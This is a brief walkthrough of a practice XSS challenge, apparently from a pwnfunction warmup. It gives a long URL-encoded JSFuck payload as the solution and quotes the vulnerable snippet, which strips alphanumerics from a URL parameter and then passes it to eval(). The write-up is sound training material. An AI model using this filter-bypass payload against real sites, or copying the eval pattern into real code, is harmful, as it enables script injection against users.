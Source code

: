 # Ligma - Exercise 5

[Problem](https://xss.pwnfunction.com/warmups/ligma/)

[Solution](https://sandbox.pwnfunction.com/warmups/ligma.html?balls=%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%5D%5B(%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%5D)%5B%2B!%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B(%5B%5D%5B%5B%5D%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(%5B%5D%5B%5B%5D%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%5D)%5B%2B!%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%5D((!!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(%5B%5D%5B%5B%5D%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(%5B%5D%5B%5B%5D%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(%2B%5B!%5B%5D%5D%2B%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%5D)%5B%2B!%2B%5B%5D%2B%5B%2B!%2B%5B%5D%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(%2B(!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B%5B%2B!%2B%5B%5D%5D))%5B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%5D)%5B%2B!%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B(%5B%5D%2B%5B%5D)%5B(%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%5D)%5B%2B!%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B(%5B%5D%5B%5B%5D%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(%5B%5D%5B%5B%5D%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%5D)%5B%2B!%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%5D%5B(%5B%5D%5B%5B%5D%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B((%2B%5B%5D)%5B(%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%5D)%5B%2B!%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B(%5B%5D%5B%5B%5D%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(%5B%5D%5B%5B%5D%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%5D)%5B%2B!%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%2B%5B%2B!%2B%5B%5D%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%5D%5D(!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B%5B!%2B%5B%5D%2B!%2B%5B%5D%5D)%2B(!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D)()((!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%2B%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%5D%2B%5B%2B!%2B%5B%5D%5D%2B%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(%5B%2B%5B%5D%5D%2B!%5B%5D%2B%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D))

## Explanation

Here is the part of the source code that can accept JS Injections.

```html
    <script>
        balls = (new URL(location).searchParams.get('balls') || "Ninja has Ligma")
        balls = balls.replace(/[A-Za-z0-9]/g, '')
        eval(balls)
    </script>
```

You can pass a Javascript command directly to balls variable, which then gets executed as it gets passed to `eval()`. But notice that all the alphanumeric characters in the variable `balls` get replaced by empty space.

You can escape this replacing by using so called *JSFuck Encoding*. Now URL encode the non-alphanumeric code, and then and set that as the value of `balls`. Done!

### This might help

-[Non Alphanumeric JS](https://portswigger.net/research/executing-non-alphanumeric-javascript-without-parenthesis)
-[JSFuck Encoding tool](http://www.jsfuck.com/)
